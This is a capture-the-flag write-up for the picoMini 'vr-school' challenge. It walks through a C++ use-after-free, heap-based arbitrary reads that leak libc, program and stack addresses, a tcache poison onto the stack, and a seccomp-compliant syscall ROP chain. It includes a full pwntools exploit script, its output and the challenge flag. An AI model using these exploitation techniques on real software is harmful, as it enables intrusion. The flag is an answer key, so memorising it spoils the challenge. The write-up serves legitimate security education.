

<h1 align="center">🎓 vr-school</h1>
<p align="center">
  <b>picoMini by redpwn (2021) Binary Exploitation Write-Up</b>
</p>
<p align="center">
  
  
  
  
</p>
<p align="center">
  A C++ Use-After-Free, a Forged Object, Three Leaks, and a Deterministic Tcache Poison onto the Stack
</p>

---

# 📋 Environment

| Item       | Value                                                              |
| ---------- | ----------------------------------------------------------------- |
| Event      | picoMini by redpwn 2021 (run on CyLab Security Academy)            |
| Category   | Binary Exploitation                                               |
| Difficulty | Hard                                                             |
| Author     | notdeghost                                                        |
| Handout    | `chall` (64-bit ELF, PIE, Full RELRO), `Dockerfile`               |
| Task       | Abuse a dangling pointer to read a protected `flag.txt`          |
| Tools Used | `pwntools`, `ROPgadget`, `objdump`, `gdb`, `docker`              |

---

# 🗺️ Overview

> `chall` is a toy "online school" menu that creates, names, prints, "studies", and removes students. A student is a tiny `0x18` object holding a virtual-function pointer, a name pointer, and a name length. "Remote student" frees the object but never clears the global slot, so the pointer dangles. Because a student object and a `0x18` name live in the same size class, a name reallocated over a freed student overlays its fields, and now we own a forged object: point its name pointer anywhere and "print" becomes an arbitrary read. That hands us libc (through a GOT entry), the program base (through the object's vtable), and a live stack address (through `__environ`). The finish writes a short chain over a saved return address so the program returns into an `open` / `read` / `write` syscall ROP, because `seccomp` forbids `execve`. This build's glibc 2.27 carries the backported tcache double-free key and its small bins are polluted by the leak phase, so the write primitive is a deterministic arbitrary-free tcache poison on a pristine, non-fastbin `0x90` class.

Steps:
* Read `chall`, map the five menu handlers, and spot the use-after-free in "Remote student"
* Overlap a freed student with a name to forge an object, turning "print" into an arbitrary read
* Leak libc from a GOT entry, the program base from the object vtable, and a stack address from `__environ`
* Free a self-crafted fake chunk into the pristine `0x90` tcache, then poison its forward pointer onto the stack
* Land a chunk over the "Set name" handler's saved return address and pivot into an `open` / `read` / `write` chain

---

# 📑 Table of Contents

1. [The Binary and the Menu](#the-binary-and-the-menu)
2. [The Use-After-Free and the Forged Object](#the-use-after-free-and-the-forged-object)
3. [Three Leaks from One Primitive](#three-leaks-from-one-primitive)
4. [The Allocator Problem](#the-allocator-problem)
5. [A Deterministic Tcache Poison on the 0x90 Class](#a-deterministic-tcache-poison-on-the-0x90-class)
6. [Pivoting from the Set-name Handler](#pivoting-from-the-set-name-handler)
7. [The Syscall ROP](#the-syscall-rop)
8. [The Exploit](#the-exploit)
9. [Flag](#-flag)
10. [Solution Summary](#solution-summary)
11. [Lessons and Takeaways](#lessons-and-takeaways)

---

# The Binary and the Menu

`checksec` shows every modern mitigation is on, so there are no fixed addresses and no overflow to lean on:

```text
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

The menu offers five actions, each operating on a student index (bounded to `0..15`). Reversed, the handlers are small and precise:

```text
0  Create         operator new(0x18); the three fields are zeroed, no name is allocated
1  Set name       read new_len; free(name_ptr); name_ptr = malloc(new_len); read new_len bytes
2  Print name     cout << name_ptr                (prints as a C string)
3  "Study"        rax = student->vtable; rax = [rax]; call rax     (rdi = student)
4  Remote student reset vtable; free(name_ptr); operator delete(student)   (slot NOT cleared)
```

A student is a `0x18` object with three `8`-byte fields:

```c
struct student {
    void   *study_fn;   // +0x00  vtable pointer, called by "Study"
    char   *name_ptr;   // +0x08  where the name lives, printed by "Print"
    size_t  name_len;   // +0x10  current name length
};
```

The bug is in action `4`. It frees both the name and the object but leaves the global `students[idx]` pointing at freed memory. Because `operator new(0x18)` and a `0x18` name land in the same `0x20` chunk, a name allocated right after the free reuses the freed object, and the `24` bytes written as a name become the object's three fields.

> **In plain terms:** removing a student frees it but forgets to erase the bookmark to it. Since a name is the same size as a student, we can drop a name exactly where a freed student used to sit and scribble over its fields. That lets us build a fake student whose "name" points wherever we like.

---

# The Use-After-Free and the Forged Object

The overlap is the whole game. Create two students, free the first, then set the second student's name to `24` bytes. That `malloc(0x18)` returns the just-freed first object, so the name write forges the first student's fields. With the name pointer set to any address, "Print" reads memory there:

```python
def arb_read(r, addr):
    # create 0, create 1, free 0, then name 1 with 24 bytes that overlay object 0
    fire(r, b"0 0 0", b"0 1 0", b"4 0",
            b"1 1 24", nums(b"AAAAAAAA" + p64(addr) + p64(8)),
            b"2 0")                       # print student 0 -> reads *addr
    sync(r, 5)
    return u64(r.recvline().rstrip().ljust(8, b"\0"))
```

The eight `A`s are the forged vtable (unused by "Print"), the next eight are the forged `name_ptr = addr`, and the last eight are the length. "Print student 0" then dereferences `addr`. This single overlap is a clean, repeatable arbitrary read, and it is the only primitive the leaks need.

> **In plain terms:** we lay a fresh name on top of a dead student, which lets us choose what that student's name pointer is. Asking the program to print that student then prints whatever is at the address we chose.

---

# Three Leaks from One Primitive

Everything needed for the finish comes out of that one read.

**libc** falls out of a GOT entry. The program imports `malloc`, so reading its GOT slot gives a live libc address, and the pinned image's offset turns it into a base:

```python
libc.address = arb_read(r, pb + GOT_MALLOC) - libc.sym['malloc']   # malloc @ libc + 0x97020
```

**The program base** falls out of the object vtable. "Remote student" resets a freed object's vtable to a fixed `.data.rel.ro` address before freeing, so reading that field through a forged object leaks a PIE pointer, and subtracting its known offset gives the base.

**A stack address** falls out of `__environ`, a libc global that holds a pointer into the live stack. Reading it and subtracting a fixed distance reaches a saved return address slot:

```python
stack_ret = arb_read(r, libc.sym['environ']) - 0x130    # __environ @ libc + 0x3ee098
```

The exact distance matters, and it is not a guess. `environ - 0x130` is the stack slot that holds the saved return address of the "Set name" handler, which the binary reaches with a real `call`. We confirm it once in `gdb`: the slot holds `program_base + 0x1190`, a return site inside the menu loop, which is exactly the frame we will hijack later.

> **In plain terms:** the same "read anywhere" trick gives us the three coordinates every heap exploit wants: where libc is, where the program is, and where the stack is. The stack read is aimed at the precise return address we intend to overwrite at the end.

---

# The Allocator Problem

The natural finish would be a tcache poison: free a chunk, rewrite its forward pointer, and let the next two allocations hand back an arbitrary address with no size check. Two facts about this exact build block the easy version.

First, the libc is Ubuntu 18.04's `2.27-3ubuntu1.6`, which carries the backported tcache double-free key:

```text
$ strings libc.so.6 | grep "double free"
free(): double free detected in tcache 2
```

So the usual trick of freeing the same chunk twice to rewrite its forward pointer is caught and aborts.

Second, the leak phase hammers the `0x20` class and leaves the `0x40` tcache full at seven entries. Freeing a fake `0x40` chunk therefore spills into the fastbin, where the next-size check reads uninitialized memory and kills the process. The fastbin route is a dead end here, and it is also fragile against the way `cin` buffers input differently over a socket than over a pipe.

> **In plain terms:** the two shortcuts most heap exploits use are closed. Double-freeing is detected, and the obvious small bin is already crowded and booby-trapped. The write primitive has to sidestep both.

---

# A Deterministic Tcache Poison on the 0x90 Class

The fix is to do the poison with a single arbitrary free on a size class the program never touches, so the result does not depend on leftover heap state at all. The `0x90` class is non-fastbin (larger than `0x80`) and pristine, which means a free of a correctly sized fake chunk always takes the tcache path, where there is no size or next-chunk check.

A single `0x210` name buffer (one student) holds everything: the ROP chain at the front, and an embedded fake `0x90` chunk near the end. The fake chunk's size field is `0x91`, and its user data is where its forward pointer will live:

```python
fake = buf + 0x100
def body(fd):                          # inside the 0x210 name
    b  = b"flag.txt".ljust(0x10, b"\0") + chain      # "flag.txt" + the ROP chain
    b  = b.ljust(0xf0, b"\0") + p64(0) + p64(0x91) + p64(fd)   # fake 0x90 chunk header + fd
    return b
```

The forged-object overlap points a student's `name_ptr` at `fake`, and "Remote student" frees it straight into `tcache[0x90]`. Because the fake chunk lives inside a name we still fully control, we then simply re-edit that name to set the freed chunk's forward pointer to the saved return address on the stack. No second free, so the double-free key never trips:

```python
fire(r, b"0 0 0", b"0 1 0", b"4 0",
        b"1 1 24", nums(p64(0) + p64(fake) + p64(0x88)))   # forge: name_ptr -> fake
free_(r, 0)                               # free(fake) -> tcache[0x90] = [fake]
set_name(r, 15, body(stack_ret))          # rewrite fake's fd -> stack_ret
```

Two `0x88` allocations finish it. The first pops the fake chunk back out of the tcache, and the second is handed `stack_ret` itself, with no size check to satisfy:

```python
fire(r, b"0 8 0", b"1 8 136", nums(b"X"*0x88))           # pop fake
fire(r, b"0 7 0")                                         # create slot 7
fire(r, b"1 7 136", nums((p64(pop_rsp)+p64(rop_at)+p64(0)).ljust(0x88, b"\0")))   # write over stack_ret
```

One detail keeps the forge exact: the overlap only reuses the freed object if it is the head of its bin, so before forging we drain the `0x20` class with a run of fresh creations. After that the sequence is deterministic on every run.

> **In plain terms:** instead of fighting the crowded, protected small bins, we do the whole poison in a quiet size class. We hide a hand-built chunk inside a name, free it into the tcache, then edit the same name to point that freed chunk at the stack. Two allocations later the program hands us a writable window over the exact return address we leaked earlier.

---

# Pivoting from the Set-name Handler

The write over `stack_ret` is only `24` useful bytes, which is not enough for a full `open` / `read` / `write` chain. It does not need to be. The target is the "Set name" handler's own saved return address, so the three words we write are a pivot, and the handler's own `leave; ret` triggers it:

```text
stack_ret + 0x00 :  pop rsp ; ret      (a libc gadget)
stack_ret + 0x08 :  &rop                (chain address, at the front of our 0x210 name)
stack_ret + 0x10 :  0
```

When the final "Set name" returns, it pops `pop rsp ; ret`, which loads `rsp` with the address of the long chain sitting in our name buffer, and execution continues there with as much room as we want. The chain and the `"flag.txt"` string both live in that same known-address buffer, so no part of the finish depends on a second allocation.

> **In plain terms:** we only get a tiny write on the stack, so we spend it on a single instruction that moves the stack pointer to our big chain in the heap. The menu handler returning is what pulls the trigger.

---

# The Syscall ROP

`seccomp` on this challenge allows file reads but not `execve`, so there is no shell. The chain reads `flag.txt` directly with raw syscalls, all addresses resolved from the extracted libc:

```python
fname   = buf                 # "flag.txt" sits at the front of the name buffer
flagbuf = pb + SCRATCH        # a writable .bss scratch page

chain  = p64(pop_rax)+p64(2)+p64(pop_rdi)+p64(fname)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(syscall)    # open("flag.txt", 0)
chain += p64(pop_rax)+p64(0)+p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flagbuf)+p64(pop_rdx)+p64(100)+p64(syscall) # read(3, buf, 100)
chain += p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flagbuf)+p64(pop_rdx)+p64(100)+p64(syscall) # write(1, buf, 100)
```

`open` returns fd `3` (the next free descriptor after stdio), `read` pulls the flag into scratch, and `write` prints it to stdout. The libc is pulled from the digest-pinned Docker image so every gadget and offset is exact for the build the server runs:

```sh
IMG=ubuntu@sha256:2aeed98f2fa91c365730dc5d70d18e95e8d53ad4f1bbf4269c3bb625060383f0
docker run --rm --entrypoint cat $IMG /lib/x86_64-linux-gnu/libc.so.6 > libc.so.6
```

> **In plain terms:** the jail blocks shells, so we do not need one. The chain just opens the flag file, reads it into a scratch buffer, and prints it, all with plain syscalls built from the real library.

---

# The Exploit

```python
#!/usr/bin/env python3
import sys, re, time
from pwn import *

context.binary = ELF('./chall', checksec=False)
context.log_level = 'info'
LIBC = sys.argv[3] if len(sys.argv) >= 4 else ('./libc.so.6' if len(sys.argv) >= 3 else './lib/rt/libc.so.6')
libc = ELF(LIBC, checksec=False)

def conn(): return remote(sys.argv[1], int(sys.argv[2])) if len(sys.argv) >= 3 else process('./chall_local', env={})

MENU = b"4. Remote student\n" + b"$"*76 + b"\n"; CHOICE = b"choice: \n"
GOT_MALLOC = 0x202f88; VTABLE = 0x202ce8; SCRATCH = 0x203048; STUDENTS = 0x203260

def nums(b): return b" ".join(str(x).encode() for x in b)
def sync(r, n):
    for _ in range(n): r.recvuntil(CHOICE)
def fire(r, *ls): r.send(b"".join(l + b"\n" for l in ls))
def leak_heap(r):
    fire(r, b"0 0 0", b"1 0 24", nums(b"A"*24), b"0 1 0", b"0 2 0", b"0 3 0", b"0 4 0", b"0 5 0", b"0 6 0", b"4 1", b"4 2", b"4 0", b"2 0")
    sync(r, 12); return u64(r.recvline().rstrip().ljust(8, b"\0"))
def leak_pb(r):
    fire(r, b"0 0 0", b"1 0 24", nums(b"A"*24), b"4 3", b"4 0", b"0 1 0", b"2 0")
    sync(r, 6); return u64(r.recvline().rstrip().ljust(8, b"\0")) - VTABLE
def arb_read(r, a):
    fire(r, b"0 0 0", b"0 1 0", b"4 0", b"1 1 24", nums(b"AAAAAAAA" + p64(a) + p64(8)), b"2 0")
    sync(r, 5); return u64(r.recvline().rstrip().ljust(8, b"\0"))
def crt(r, i): fire(r, f"0 {i} 0".encode()); sync(r, 1)
def set_name(r, i, data): fire(r, f"1 {i} 500".encode(), nums(data.ljust(500, b"\0"))); sync(r, 1)
def mk_name(r, i, data): fire(r, f"0 {i} 0".encode(), f"1 {i} 500".encode(), nums(data.ljust(500, b"\0"))); sync(r, 2)
def free_(r, i): fire(r, f"4 {i}".encode()); sync(r, 1)
def name_addr(r, pb, i): return arb_read(r, arb_read(r, pb + STUDENTS + i*8) + 8)

def attempt():
    r = conn()
    try:
        r.recvuntil(MENU)
        mk_name(r, 15, b"flag.txt\x00placeholder")     # 0x210 name: ROP buffer + fake 0x90 chunk
        leak_heap(r); pb = leak_pb(r)
        libc.address = arb_read(r, pb + GOT_MALLOC) - libc.sym['malloc']
        if libc.address & 0xfff or not (0 < libc.address < 0x800000000000): r.close(); return None
        stack_ret = arb_read(r, libc.sym['environ']) - 0x130
        buf = name_addr(r, pb, 15)
        log.info("prog=%#x libc=%#x stack_ret=%#x buf=%#x" % (pb, libc.address, stack_ret, buf))

        pop_rax = next(libc.search(asm('pop rax ; ret'))); pop_rdi = next(libc.search(asm('pop rdi ; ret')))
        pop_rsi = next(libc.search(asm('pop rsi ; ret'))); pop_rdx = next(libc.search(asm('pop rdx ; ret')))
        syscall = next(libc.search(asm('syscall ; ret'))); pop_rsp = next(libc.search(asm('pop rsp ; ret')))

        fname = buf; chain_at = buf + 0x10; flagbuf = pb + SCRATCH
        chain  = p64(pop_rax)+p64(2)+p64(pop_rdi)+p64(fname)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(syscall)
        chain += p64(pop_rax)+p64(0)+p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flagbuf)+p64(pop_rdx)+p64(100)+p64(syscall)
        chain += p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flagbuf)+p64(pop_rdx)+p64(100)+p64(syscall)

        fake = buf + 0x100
        def body(fd):                                  # fake 0x90 chunk (tcache free, no next check)
            b = b"flag.txt".ljust(0x10, b"\0") + chain
            return b.ljust(0xf0, b"\0") + p64(0) + p64(0x91) + p64(fd)
        set_name(r, 15, body(0))
        fire(r, *([b"0 6 0"]*20)); sync(r, 20)         # drain tcache[0x20] so the overlap is exact
        fire(r, b"0 0 0", b"0 1 0", b"4 0", b"1 1 24", nums(p64(0)+p64(fake)+p64(0x88))); sync(r, 4)   # forge -> fake
        free_(r, 0)                                    # free(fake) -> tcache[0x90]
        set_name(r, 15, body(stack_ret))               # fake->fd = stack_ret
        fire(r, b"0 8 0", b"1 8 136", nums(b"X"*0x88)); sync(r, 2)        # pop fake
        fire(r, b"0 7 0"); sync(r, 1)
        fire(r, b"1 7 136", nums((p64(pop_rsp)+p64(chain_at)+p64(0)).ljust(0x88, b"\0")))  # write over stack_ret; ret pivots

        data = r.recvrepeat(2)
        m = re.search(rb'(?:picoCTF|academy|flag)\{[^}]*\}', data)
        if m: r.close(); return m.group().decode()
        r.close(); return None
    except Exception:
        try: r.close()
        except Exception: pass
        return None

def main():
    tries = 20 if len(sys.argv) >= 3 else 1
    for i in range(tries):
        log.info("attempt %d/%d" % (i+1, tries))
        f = attempt()
        if f: log.success("FLAG: %s" % f); print(f); return
        if len(sys.argv) >= 3: time.sleep(8)
    log.failure("no flag")

main()
```

Run it against the server with the extracted libc beside it:

```text
$ python3 solve.py mars.cylabacademy.net 31638 ./libc.so.6
[*] attempt 1/20
[*] prog=0x638021000000 libc=0x7d71e2f48000 stack_ret=0x7ffd72d44608 buf=0x638057dcadd0
[+] FLAG: picoCTF{0nl1ne_d3bat3_sux}
```

Because the poison lives in a pristine size class, the result does not depend on how input is buffered, so one clean session lands it. The driver retries a few times only to shrug off a throttled or garbled connection from the jail.

---

# 🚩 Flag

```text
picoCTF{0nl1ne_d3bat3_sux}
```

---

# Solution Summary



---

# Lessons and Takeaways

* **A dangling slot plus a shared size class is a forged object.** "Remote student" frees a student but keeps the pointer, and a `0x18` name reallocates onto the freed `0x18` object, so a name write becomes control of a live object's vtable and name pointer. That one overlap is the entire foundation.
* **One arbitrary read is enough for three leaks.** Pointing the forged name pointer at a GOT slot, the reset vtable, and `__environ` yields libc, the program base, and a stack address in turn, which is every coordinate the finish needs.
* **Aim the stack leak at a real return address.** `environ - 0x130` is not a round guess; it is the saved return of the "Set name" handler, confirmed once in `gdb`, so overwriting it and letting that handler return is a reliable trigger.
* **Match the technique to the allocator you actually have.** This glibc 2.27 has the backported tcache double-free key and a leak phase that fills the small bins, so the fastbin and double-free routes are closed. Freeing one self-crafted chunk into a pristine, non-fastbin `0x90` tcache sidesteps both the key and the size checks.
* **Determinism beats tuning over a socket.** A fastbin poison that depends on bin residue lands over a pipe and misses over a socket because `cin` buffers differently. Doing the whole poison in a quiet size class removes that dependence, so the exploit behaves the same locally and remotely.
* **A tiny stack write still wins with a pivot.** The poison only grants a `24`-byte write on the stack, but spending it on `pop rsp ; ret` to a heap-resident chain gives unlimited ROP, and `seccomp` blocking `execve` just means reading `flag.txt` with syscalls instead of popping a shell.

---

Written by **TheDingo8MyBaby**
picoMini by redpwn 2021 • vr-school • flag: picoCTF{0nl1ne_d3bat3_sux}
